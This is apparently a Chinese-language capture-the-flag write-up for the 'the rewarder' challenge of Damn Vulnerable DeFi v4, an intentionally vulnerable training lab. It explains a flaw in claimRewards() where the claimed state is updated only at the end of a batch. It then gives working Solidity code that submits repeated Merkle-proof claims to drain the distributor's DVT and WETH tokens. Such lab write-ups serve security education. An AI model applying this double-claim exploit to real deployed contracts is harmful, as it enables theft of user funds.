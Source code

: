 # Damn Vulnerable DeFi v4 - the rewarder

- https://www.damnvulnerabledefi.xyz/challenges/the-rewarder/
- source code in https://github.com/wiasliaw/wiasliaw-ctf

## check condition

盡可能清空 distributor 的代幣，其持有的 dvt token 和 weth 需要少於一定值

```solidity
assertLt(
    dvt.balanceOf(address(distributor)),
    1e16,
    "Too much DVT in distributor"
);

assertLt(
    weth.balanceOf(address(distributor)),
    1e15,
    "Too much WETH in distributor"
);
```

將清空的資金轉移到 recovery

```solidity
assertEq(
    dvt.balanceOf(recovery),
    TOTAL_DVT_DISTRIBUTION_AMOUNT -
        ALICE_DVT_CLAIM_AMOUNT -
        dvt.balanceOf(address(distributor)),
    "Not enough DVT in recovery account"
);
assertEq(
    weth.balanceOf(recovery),
    TOTAL_WETH_DISTRIBUTION_AMOUNT -
        ALICE_WETH_CLAIM_AMOUNT -
        weth.balanceOf(address(distributor)),
    "Not enough WETH in recovery account"
);
```

## break

問題主要源於 `claimRewards()` 沒有以正確的執行順序去執行 `_setClaimed` 來更新狀態 (寫在 comment)：

```solidity
function claimRewards(Claim[] memory inputClaims, IERC20[] memory inputTokens) external {
    // init with address(0)
    IERC20 token;

    // 試想 i = 0 的情況
    for (uint256 i = 0; i < inputClaims.length; i++) {
       inputClaim = inputClaims[i];

        if (token != inputTokens[inputClaim.tokenIndex]) {
            // address(0) == address(0)，_setClaimed 被跳過了
            if (address(token) != address(0)) {
                if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
            }
            token = inputTokens[inputClaim.tokenIndex];
            bitsSet = 1 << bitPosition;
            amount = inputClaim.amount;
        } else {
            bitsSet = bitsSet | 1 << bitPosition;
            amount += inputClaim.amount;
        }

        // 等到最後一個 element 才會呼叫 _setClaimed
        if (i == inputClaims.length - 1) {
            if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
        }
    }
}
```

所以當 inputClaims 為 [tokenA, tokenA, tokenA]，會一直執行到 `i = length - 1` 才會執行 `_setClaimed`。

### solution

仿照 Alice 領取 reward 的寫法，然後增加 inputClaims 的長度即可：

#### 1. get player address

印出 player address，並從 json 檔找出其在 merkle tree 的 index

```solidity
console.log(player) // 0x44E97aF4418b7a17AABD8090bEA0A471a366305C

uint256 player_dvt_amount_index_188 = 11524763827831882;
uint256 player_weth_amount_index_188 = 1171088749244340;
```

#### 2. 建立 claim 需要的參數

```solidity
// 計算領完 dvt 和 weth 需要多少個 Claim struct
uint256 dvtTxCount = TOTAL_DVT_DISTRIBUTION_AMOUNT / player_dvt_amount_index_188;
uint256 wethTxCount = TOTAL_WETH_DISTRIBUTION_AMOUNT / player_weth_amount_index_188;
uint256 totalTxCount = dvtTxCount + wethTxCount;

// load leaves
bytes32[] memory dvtLeaves = _loadRewards("/lib/damn-vulnerable-defi/test/the-rewarder/dvt-distribution.json");
bytes32[] memory wethLeaves = _loadRewards("/lib/damn-vulnerable-defi/test/the-rewarder/weth-distribution.json");

// create claim
Claim[] memory claims = new Claim[](totalTxCount);

for (uint256 i = 0; i < totalTxCount; i++) {
    if (i < dvtTxCount) {
        claims[i] = Claim({
            batchNumber: 0,
            amount: player_dvt_amount_index_188,
            tokenIndex: 0,
            proof: merkle.getProof(dvtLeaves, 188)
        });
    } else {
        claims[i] = Claim({
            batchNumber: 0,
            amount: player_weth_amount_index_188,
            tokenIndex: 1,
            proof: merkle.getProof(wethLeaves, 188)
        });
    }
}
```

#### 3. trigger `claimRewards` and send to recovery

```solidity
distributor.claimRewards({inputClaims: claims, inputTokens: tokensToClaim});

dvt.transfer(recovery, dvt.balanceOf(player));
weth.transfer(recovery, weth.balanceOf(player));
```
